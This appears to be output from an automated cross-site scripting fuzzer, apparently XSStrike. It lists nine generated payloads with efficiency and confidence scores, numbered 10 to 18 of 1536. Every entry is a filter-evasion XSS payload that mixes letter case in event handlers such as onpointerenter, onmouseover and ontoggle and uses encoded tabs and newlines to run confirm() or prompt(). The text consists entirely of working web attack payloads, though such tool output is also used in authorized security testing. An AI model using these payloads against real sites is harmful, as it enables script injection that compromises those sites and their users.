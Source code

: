 ------------------------------------------------------------
 Payload: <A%0aoNPoiNterEntER+=+confirm()%0dx//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 10/1536
 
------------------------------------------------------------
 Payload: <a%0aoNMOuSEOVer+=+confirm()%0dx//v3dm0s 
 Efficiency: 91 
 Confidence: 10 
 Progress: 11/1536
 
------------------------------------------------------------
 Payload: <dEtaiLs%09OnPoINTeRenTER%09=%09(prompt)``// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 12/1536
 
------------------------------------------------------------
 Payload: <a%09OnmOUsEover%09=%09a=prompt,a()//v3dm0s 
 Efficiency: 91 
 Confidence: 10 
 Progress: 13/1536
 
------------------------------------------------------------
 Payload: <DEtAILs/+/onToGgLe%0a=%0a[8].find(confirm)%0dx// 
 Efficiency: 92 
 Confidence: 10 
 Progress: 14/1536
 
------------------------------------------------------------
 Payload: <A%0dONPOINTErENter%0a=%0aa=prompt,a()//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 15/1536
 
------------------------------------------------------------
 Payload: <deTAilS%0dONpOiNTerEnTER%09=%09confirm()%0dx// 
 Efficiency: 92 
 Confidence: 10 
 Progress: 16/1536
 
------------------------------------------------------------
 Payload: <A%0aOnPOInTERenTer%0a=%0aconfirm()%0dx//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 17/1536
 
------------------------------------------------------------
 Payload: <A%0doNmouseovEr+=+(confirm)()//v3dm0s 
 Efficiency: 91 
 Confidence: 10 
 Progress: 18/1536
 